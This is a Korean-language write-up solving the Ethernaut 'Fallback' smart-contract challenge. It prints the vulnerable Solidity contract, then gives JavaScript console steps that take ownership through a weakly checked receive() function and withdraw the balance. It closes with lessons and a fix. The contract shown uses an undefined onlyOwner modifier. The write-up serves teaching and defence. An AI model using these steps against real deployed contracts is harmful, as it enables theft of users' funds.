 # Ethernaut **Fallback** 레벨 Write‑up

> 목표:  
> 1. 컨트랙트의 소유권(ownership) 획득  
> 2. 컨트랙트 잔액을 0으로 만들기  

---

## 📋 문제 개요

이 레벨은 **Fallback 함수의 위험성**과 **권한 검증 로직 불일치**를 보여줍니다.  
소유권을 얻고, 잔액을 인출하면 클리어됩니다.

---

## 💻 컨트랙트 코드 분석

```solidity
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;
    
    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether); // 초기 소유자는 1000 ETH 기여
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

---

## 🔍 취약점 분석

### 정상 소유권 변경 (contribute 함수)
- 조건: 현재 owner 기여금(1000 ETH)보다 많이 기여해야 함  
- 단일 트랜잭션당 0.001 ETH 미만만 허용됨 → 사실상 불가능

### 취약 소유권 변경 (receive 함수)
- 조건: `msg.value > 0` && `contributions[msg.sender] > 0`  
- 단순히 0.0001 ETH만 기여한 뒤, 이더를 직접 전송하면 owner가 됨!  
- `owner = msg.sender` 직접 실행

👉 **receive 함수의 검증이 지나치게 약함**

---

## 🚀 공격 시나리오

### Step 1. 최소 기여금 보내기
```javascript
await contract.contribute({ value: toWei("0.0001") });
```

### Step 2. receive() 함수 트리거
```javascript
await contract.sendTransaction({ value: toWei("0.0001") });
```

### Step 3. 소유권 확인
```javascript
let newOwner = await contract.owner();
console.log("New owner:", newOwner);
```

### Step 4. 잔액 인출
```javascript
await contract.withdraw();
```

---

## ✅ 실행 결과

```
My contribution: 0.0001
New owner: 0x[player_address]
My address: 0x[player_address]
Contract balance: 0
```

---

## ⚡ 핵심 교훈

1. **Fallback 함수 위험성**
   - `receive()`나 `fallback()`은 **직접 이더 전송**으로도 실행 가능
   - 항상 최소한의 검증 로직만 넣으면 치명적 권한 탈취 가능

2. **권한 검증의 일관성**
   - `contribute()`와 `receive()`가 다른 조건을 적용 → 보안 불일치 발생

3. **상태 변경 검토**
   - 단순해 보이는 함수도 중요한 상태(`owner`)를 변경할 수 있음
   - 상태 변경 로직은 모두 엄격히 검증 필요

---

## 🔧 수정 방안

```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    contributions[msg.sender] += msg.value;
    if (contributions[msg.sender] > contributions[owner]) {
        owner = msg.sender;
    }
}
```

- `receive()`에서도 `contribute()`와 동일한 로직 적용  
- 기여금 비교 후 소유권 변경

---

## 📌 결론

이 문제는 **Fallback 함수의 특성과 권한 검증 불일치**를 악용한 전형적인 스마트 컨트랙트 취약점 사례입니다.  
실제 DApp 개발에서는 **민감한 상태 변경 로직을 fallback/receive에 넣지 말아야** 합니다.
